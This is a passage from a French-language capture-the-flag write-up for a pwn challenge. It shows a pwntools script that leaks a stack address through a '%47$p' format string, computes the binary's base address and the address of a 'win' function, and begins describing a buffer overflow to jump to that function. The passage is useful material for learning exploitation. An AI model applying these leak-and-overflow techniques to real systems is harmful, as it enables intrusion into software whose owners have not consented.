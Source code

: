 ```python
raw_input("gdb attach")
p.interactive()
```

![](/lib/images/writeups/german_fcsc/pwn//upload_0ae689293e4f08ce4709d7ff3cb86bb1.png)

Une base address est reconnaissable grâce aux "000" à la fin. Ces zéros sont là, car la base address doit être alignée sur une page mémoire (0x1000).

De la même façon, il est possible de calculer l'offset de la fonction win et pouvoir jump dessus plus tard:

![](/lib/images/writeups/german_fcsc/pwn//upload_4bba29f3895264a062f4640854ea2206.png)

Il est possible de vérifier que notre offset est correct. On modifie à nouveau notre script pour qu'il affiche l'adresse re calculée et avec gdb il est possible de voir s'il s'agit de la bonne fonction:

```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "|%47$p|"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')

base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))

win_offset = base_addr+0x267
log.info("Adresse de la fonction win: {}".format(hex(win_offset)))
raw_input("gdb attach")
p.interactive()
```

![](/lib/images/writeups/german_fcsc/pwn//upload_ae5c5b0841fb4cfe9d32bb697e331cb0.png)

Pour rappel, la fonction win ressemble à ceci en C:


    
![](/lib/images/writeups/german_fcsc/pwn//upload_2b48f737e939725bc10cd7147604168e.png)


## Exploitation du buffer overflow

Maintenant qu'il est possible re calculer l'adresse de la fonction win, il faut pouvoir exploiter le buffer overflow et jump dessus. Pour cela, il faut connaitre le padding de ce buffer et voir lorsqu'il segfault.
